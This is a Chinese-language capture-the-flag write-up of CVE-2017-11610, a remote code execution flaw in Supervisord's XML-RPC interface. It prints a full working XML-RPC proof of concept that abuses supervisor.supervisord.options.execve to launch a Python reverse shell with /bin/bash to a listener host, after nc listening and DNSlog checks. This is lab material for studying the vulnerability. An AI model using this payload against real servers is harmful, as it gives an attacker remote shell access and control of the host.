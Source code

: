 # CVE-2017-11610（ Supervisord 远程命令执行漏洞）by [Frivolous-scholar](https://github.com/Frivolous-scholar)

## 概述

Supervisord 是使用 Python 开发的进程管理程序，Supervisord 能够将命令行进程或服务变为后台运行的deamon（守护进程）。Supervisord 拥有监控进程状态的功能，在进程异常退出时能够自动重启进程。

Supervisord 在配置了 Web 接口后，服务器会启动一个 XMLRPC 服务器，端口号为 9001，利用本漏洞，在获取接口访问权限后，远程攻击者可利用发送一段精心构造的请求，导致可在服务器执行任意代码。

首先打开靶场，并进行抓包。

![1](./1.png)

利用 POC 去执行，发现无回显，用 DNSlog 去验证。

![3](./3.png)

然后在跳板机上用 nc 监听。

![4](./4.png)

利用 POC 反弹shell, poc 如下。

`<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>`



![5](./5.png)

反弹过来 shell,查看 tmp 临时文件来拿 Flag。

![6](./6.png)